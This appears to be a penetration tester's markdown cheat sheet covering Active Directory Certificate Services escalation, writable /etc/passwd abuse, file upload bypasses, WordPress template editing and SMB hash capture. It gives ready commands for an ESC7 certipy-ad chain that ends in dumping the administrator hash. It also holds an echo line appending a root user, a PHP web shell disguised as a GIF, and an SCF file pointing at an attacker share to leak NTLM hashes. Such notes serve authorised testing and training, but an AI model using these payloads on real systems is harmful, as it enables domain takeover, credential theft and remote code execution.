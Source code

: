 # Active Directory

## Certificate Services

### ESC7 Scenario

Add user as an officer to manage and issue certificates
`certipy-ad ca -u username@domain -p 'password' -dc-ip ipaddress -ca caname -add-officer username -debug`

Enable the SubCA template on the CA
`certipy-ad ca -u username@domain -p 'password' -dc-ip ipaddress -ca caname -enable-template subca`

List templates to confirm SubCA addition
`certipy-ad ca -u username@domain -p 'password' -dc-ip ipaddress -ca caname -list-templates`

Request cert, get request ID and private key
`Type 'y' to save private key when prompted!!!`
`certipy-ad req -u username@domain -p 'password' -dc-ip ipaddress -ca caname -template SubCA -upn administrator@domain`

Use CA officer perms to manually issue failed cert
`certipy-ad ca -u username@domain -p 'password' -dc-ip ipaddress -ca caname -issue-request requestid`

Retrieve the issued cert
`certipy-ad req -u username@domain -p 'password' -dc-ip ipaddress -ca caname -retrieve requestid`

Ensure clock synced with DC
`sudo ntpdate dcipaddress`

Get TGT and dump admin hash!
`certipy-ad auth -pfx administrator.pfx`

# /etc/passwd Writable

Create New Root User
```
openssl passwd passwordofchoice > generatedhash

Create new user via append to /etc/passwd:
echo "username:generatedhash:0:0:userdisplayname:/root:/bin/bash" >> /etc/passwd
```

# File Upload Bypass

## General Notes

Brute Force Relevant File Extensions
```
Get a list of all file extensions used by or associated with the web server and it's language or tech stack.

For example, IIS/ASP will contain things like .config, .aspx, etc.
Official Microsoft Reference:
https://msdn.microsoft.com/en-us/library/2wawkw1c.aspx

Use Burp Suite Intruder to brute force uploading a file with all the different extensions.
```

## Image Upload Bypass

Change the Content-Type Header to the Expected Type
```
Convert between Content Types:
application/x-php
and
image/jpeg
etc.
```

Use Fake Gif with File Header (file.gif)
```
GIF89;
<?php echo system($_REQUEST['c']); ?>
```

# HTTP

## WordPress

Edit an active template page (e.g., 404.php) to execute a reverse shell or web shell to send a reverse shell.
```
Appearance > Editor > page.php

Execute the file:
http://target/wordpress/wp-content/themes/themenamenospaces/page.php
```

# SMB

SCF (Shell Command Files)

```
Start responder: sudo responder -v -I interface

(Note: Filename starts with @ to bring file to top of directory listing)
Contents of @test.scf:

[Shell]
Command=2
IconFile=\\attacker\share\test.ico
[Taskbar]
Command=ToggleDesktop

Deliver file.

When user opens file, an SMB connection will be made to the attacker, which should be captured by responder, revealing an NTLM hash.
```